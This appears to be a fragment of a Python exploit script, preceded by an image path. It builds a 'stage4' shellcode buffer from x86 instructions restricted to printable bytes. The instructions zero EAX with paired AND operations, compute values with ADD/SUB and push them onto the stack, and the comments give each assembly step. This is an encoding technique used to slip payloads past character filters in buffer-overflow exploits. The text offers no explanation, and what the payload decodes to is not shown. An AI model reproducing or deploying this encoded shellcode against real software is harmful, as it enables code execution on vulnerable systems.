 ```
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x46\x73\x13\x61" ## add  eax, 0x61137346
stage4 += "\x05\x45\x63\x03\x61" ## add  eax, 0x61036345
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x70\x50\x76\x30" ## add  eax, 0x30765070
stage4 += "\x05\x60\x50\x75\x40" ## add  eax, 0x40755060
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x03\x23\x72\x73" ## add  eax, 0x73722303
stage4 += "\x05\x02\x12\x71\x62" ## add  eax, 0x62711202
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x32\x37\x12\x14" ## add  eax, 0x14123732
stage4 += "\x05\x32\x27\x01\x14" ## add  eax, 0x14012732
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x21\x16\x46\x74" ## add  eax, 0x74461621
stage4 += "\x05\x21\x15\x35\x64" ## add  eax, 0x64351521
stage4 += "\x05\x21\x16\x33\x54" ## add  eax, 0x54331621
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x47\x66\x32\x25" ## add  eax, 0x25326647
stage4 += "\x05\x46\x56\x31\x24" ## add  eax, 0x24315646
stage4 += "\x05\x35\x64\x22\x24" ## add  eax, 0x24226435
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x53\x04\x66\x62" ## add  eax, 0x62660453
stage4 += "\x05\x42\x04\x56\x61" ## add  eax, 0x61560442
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x76\x47\x26\x66" ## add  eax, 0x66264776
stage4 += "\x05\x66\x47\x15\x56" ## add  eax, 0x56154766
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x42\x13\x42\x47" ## add  eax, 0x47421342
stage4 += "\x05\x32\x22\x42\x46" ## add  eax, 0x46422232
stage4 += "\x05\x32\x12\x42\x35" ## add  eax, 0x35421232
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x76\x01\x70\x67" ## add  eax, 0x67700176
stage4 += "\x05\x65\x01\x70\x56" ## add  eax, 0x56700165
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x13\x27\x66\x26" ## add  eax, 0x26662713
stage4 += "\x05\x23\x16\x65\x26" ## add  eax, 0x26651623
stage4 += "\x05\x13\x25\x46\x24" ## add  eax, 0x24462513
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
```